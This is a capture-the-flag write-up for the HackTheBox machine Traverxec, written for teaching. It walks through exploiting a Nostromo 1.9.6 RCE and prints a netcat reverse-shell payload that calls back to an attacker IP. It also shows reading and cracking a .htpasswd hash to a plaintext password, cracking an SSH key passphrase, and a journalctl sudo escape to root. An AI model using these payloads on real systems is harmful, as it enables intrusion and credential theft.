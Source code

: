 # <center>Traverxec  - HackTheBox WriteUp</center>
![info_card](/images/traverxec/info_card.png)

## Enumeration & Information Gathering 

#### Scanning

```
Nmap done: 1 IP address (0 hosts up) scanned in 2.14 seconds
root@kali:/var/www/html/pub# nmap -T4 10.10.10.165
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-11 10:39 EDT
Nmap scan report for 10.10.10.165
Host is up (0.054s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.13 seconds
```

#### Service Enumeration

Home page:
![home_page](/images/traverxec/home_page.png)

By visiting pages on the site such as robots.txt, the veriosn of the HTTP App is revealed

![version](/images/traverxec/version.png)

Exploit search: nostromo 1.9.6 githhib
## Exploitation
https://github.com/rptucker/CVE-2019-16278-Nostromo_1.9.6-RCE/blob/master/CVE-2019-16278.py

Let's try a executing a command:

```
python nostromo.py -t '10.10.10.165' -p 80 -c 'whoami'
```

Now on to Reverse Shell

#### Foothold

Set up a listener:
```
nc -lnvp 1234
```

Grab netcat reverse shell payload from Pentest Monkey a use as payload:

```
python nostromo.py -t '10.10.10.165' -p 80 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 1234 >/tmp/f'
```

![foothold](/images/traverxec/foothold.png)

#### Post Exploitation Enumeration

Enumerating the file system of Nostromo

![post enum](/images/traverxec/post enum.png)

>www-data@traverxec:/var/nostromo/conf$ cat .htpasswd
> david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

Cracking the passowrd using hashcat

```
hashcat64.exe -m 500 $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/ c:\Users\admin\Downloads\rockyou.txt --force
```

![cracked](/images/traverxec/cracked.png)
david:Nowonly4me

Tried loging in via SSH with David User credentials but the password is not accepted.
checking SSHD config we see that password authentication is not allowed.We therefore need to find a private key. 

![sshd_config](/images/traverxec/sshd_config.png)

After much enumeration we go back to the nhttpd.conf file and remember that home dir is set to **/home** and **public_www**. The **serveradmin** is also set as **david@traverxec.htb** therefore we can probably navigate to david's home directory.

Turns out that we can, but we can't access files such as .bashrc or .ssh folder

![david_home](/images/traverxec/david_home.png)

We try navigating to the public_www folder on the shell and we are successful

![public_www](/images/traverxec/public_www.png)

We grab the gz file, extract it and ssh with the private key.

![ssh_gz](/images/traverxec/ssh_gz.png)

But we are blocked by a passphrase and the initial password **Nowonly4me** doesn't work here 

Cracking SSH passphrase with John
![crack_ssh](/images/traverxec/crack_ssh.png)


## Privilege Escalation

SSH using David's credentials we are able to Login.
Enumerating the home directory we find a shell script that runs a journalctl with sudo. 
![server_status](/images/traverxec/server_status.png)

running the command as is in the script works okay

This probably helps us realize that we have sudo NOPASSWORD set for running that command, we couldn't see that  using sudo -l becase we still don't know the user pass for David.

Next we visit GTFOBin https://gtfobins.github.io/gtfobins/journalctl/

We see we can break out of the binary much like the less/nano way
To do this we can either make our terminal window very small to force break output of journalctl OR we can just resize our terminal using `stty rows [number]`

Run the command and enter !/bin/sh

![root](/images/traverxec/root.png)

**Extra:** 

Top References:
1.    https://github.com/rptucker/CVE-2019-16278-Nostromo_1.9.6-RCE/blob/master/CVE-2019-16278.py

2.    https://gtfobins.github.io/gtfobins/journalctl/
